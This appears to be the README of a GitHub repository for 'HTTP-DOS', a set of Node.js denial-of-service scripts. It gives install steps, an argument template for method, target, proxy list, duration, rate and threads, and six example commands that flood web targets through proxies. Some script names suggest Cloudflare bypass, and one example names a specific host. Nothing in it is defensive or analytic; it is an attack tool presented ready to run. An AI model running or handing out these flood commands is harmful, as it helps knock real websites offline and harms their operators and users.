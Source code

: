 ---------------------------------------------------------------------------
#HTTP-DOS
---------------------------------------------------------------------------
sh install.sh
---------------------------------------------------------------------------
npm i randomstring
---------------------------------------------------------------------------
node jsfile [METHOD] [TARGET] [PROXIES] [DURATION] [RPC] [THREADS]
---------------------------------------------------------------------------
node http1.js GET "https://target.com" http.txt 120 64 1
---------------------------------------------------------------------------
node http2.js GET "https://target.com" http.txt 120 64 1
---------------------------------------------------------------------------
node https-cff.js GET https://target.com/ proxy.txt 1200 64 4
---------------------------------------------------------------------------
node https-cfstr.js https://target.com/ 1200 4 GET proxy.txt 64
---------------------------------------------------------------------------
node https-socket.js https://tls.mrrage.xyz/ http.txt 1200 64 4
---------------------------------------------------------------------------
node power.js https://target.com// http.txt 1200 GET 4
---------------------------------------------------------------------------
